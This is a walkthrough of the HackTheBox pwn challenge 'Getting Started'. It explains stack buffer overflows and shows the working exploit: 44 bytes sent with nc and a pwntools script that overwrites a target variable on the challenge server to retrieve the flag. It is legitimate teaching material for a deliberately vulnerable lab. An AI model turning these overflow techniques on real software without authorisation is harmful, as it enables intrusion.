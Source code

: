 ## Overview

This is a Walkthrough for Getting Started challenge on HackTheBox. Getting Started is a very easy [HackTheBox challenge](https://app.hackthebox.com/challenges/getting-started) in pwn categor that is created by [w3th4nds](https://app.hackthebox.com/users/70668). It is also a retired challenge, so we will need to use the HackTheBox Subscription to use the challenge.

## Enumeration

When unzipping the files. We were given 4 files.

![](Images/Unzipping.png)

Let's check the files one by one. Inside the glibc folder, there are two more files.

![](Images/File1.png)

After searching on internet, it shows that glibc (GNU C Library) or libc (Standard C Library) is a library of standard functions that can be used by all C programs. So there is nothing to do with glibc folder.

![](Images/LibcExplanation.png)

Move into the next file, which is flag.txt. In CTF Competition, CTF stands for Capture The Flag. As the name suggests, it means that the CTF's participants are going to solve some kind of problem to receive a flag. This type of CTF is usually happen in jeopardy category. For more [information](https://cybersecurity.att.com/blogs/security-essentials/capture-the-flag-ctf-what-is-it-for-a-newbie).

Let's try to read the flag.txt file. Usually the flag.txt given to use from the downloaded file is a dummy flag. Which means that it is **not the real flag**. The dummy flag is given, so when the file is actually giving out the flag when the exploit is works on the local machine, the file is not crashed due the flag.txt is not there.

![](Images/File2.png)

The next file is `gs` file. Since the file doesn't have any extension that indicates the file type. We can utilize `file <filename>` command to determine the file type. Turns out, the file is an ELF (Executable Linux File) in a 64-bit format. It means that the `gs` file can be run or executed.

![](Images/File3.png)

Since we know that the `gs` file is executeable, we can execute it with the following command `./<filename>`.

![](Images/RunFile3-1.png)

![](Images/RunFile3-2.png)

It seems that the executable shows how stack and buffer overflow works. For a simple explanation. The inputted characters will be saved in stacks. Specifically on the buffer. If the buffer is full and the input is not configured properly. The characters that can be inputted may be more than the saved buffer. What happens? Well just like a glass of water. **The water will be filled up to the top, then overflow.** That’s how buffer overflow works. The impact is we can modify the variable on top of the buffer (in this case rbp or even return address) or even modify how the program works.

Last, we can check what is the last file. The last file is .py file which is an extension for python file. We can try to read the file.

![](Images/File4.png)

It seems that the python file is to do an exploit using python. But, make sure to install pwntools library for python3 beforehand. To install pwntools library, you can use the following command `pip install pwntools` or `pip3 install pwntools` to specify that the library is for python3.

## Exploit

At the very bottom of the program, before the program ask for input. It says that we need to modify the `0xdeadbeef` value. It doesn't say that we need to modify the value to something specific. Just change it!

![](Images/Instruction.png)

From the program visualization of the stack layout. We can see that if we put 4 A the stack layout will have 4 of 41. So we can calculate how many characters we need to overwrite the target or the `deadbeef`.

![](Images/StackLayout1.png)

Every row has 8 characters that can be saved.

![](Images/TotalCharactersInOneRow.png)

And there are 6 rows that needs to be filled with characters to change the value of `0xdeadbeef`.

![](Images/TotalRows.png)

Then 8 characters * 6 rows is 48 characters. If you just want to overwrite the "deadbeef" part and not the whole row. Simply just subtract 4 characters from the total characters since 0x00000000deadbeef has 8 zeros which translates to 4 characters.

To generate the exact characters needed, I will use python. You can use anything you like. Maybe like notepad and you type 44 characters or whatever it is.

![](Images/PythonGenerateCharacters.png)

Now let's send the characters back to the running program.

![](Images/SendingThePayloadManual-Locally.png)

The program says that we failed. But it prints the dummy flag. Which means if we do the same on the remote machine. We will get the flag!

But before that, lets dive into how the 44 characters of A works on stack. The characters go from the `start of buffer` to the `target to change`. Since we give a good amount of characters to overwrite the `0xdeadbeef` the program will print the flag and we successfully modify the target just like what the program told us to do.

![](Images/StackLayout2.png)

We can simply run the server on HackTheBox and get the flag! To connect to the machine, we can utilize the `nc` command.

![](Images/ConnectUsingNC.png)

Now all we need to do is to just send the 44 characters.

![](Images/SendingThePayloadManual-Remotely.png)

There is one last thing to try. Which to use the python script to exploit it. But, let's try to build a script from scratch.

## Building a Python Script

First of all, we need to create a filename with `.py` extension.

![](Images/CreatePythonScriptFile.png)

You can use any of the editor tools to help you to code. For this time, I will use sublime. The following script is the base exploit script that we will use.

![](Images/BasePythonScript.png)

For now, let's try to exploit locally, so we will leave the `isLocal` flag to True. Then we need to modify the payload. If we remember correctly, we need 44 characters to modify the `0xdeadbeef`. 

![](Images/ModifyPayloadInPythonScript.png)

Let's try to run it!

![](Images/RunningExploitLocally.png)

IT WORKS! All that left to do is to set the `isLocal` flag to false, and modify the host and port on line 15 and 16.

![](Images/ModifyHostPort.png)

Run it again and we get the flag!

![](Images/RunningExploitRemotely.png)

Here is the final Python script to exploit.
```python
#!/usr/bin/python3

# Calling the library
from pwn import *

# Simple flag to set the exploit to run locally or remotely
isLocal = False

# Valildate if the user wants to exploit local
if isLocal:
	s = process("./gs")

# If the user wants to exploit remotely
else:
	host = "165.232.46.244"
	port = 32275

	s = remote(host, port)

# Payload that will be used to exploit
payload = b"A"*44

# Receive some information if the program/machine print something
# It can be removed if the needed
s.recv()

# Send the payload to the program/machine
s.sendline(payload)

# Read the flag with format "HTB"
flag = s.recvline_contains(b"HTB").strip().decode()

# Display the flag
success(f'{flag}')

# Close the python script gracefully
s.close()
```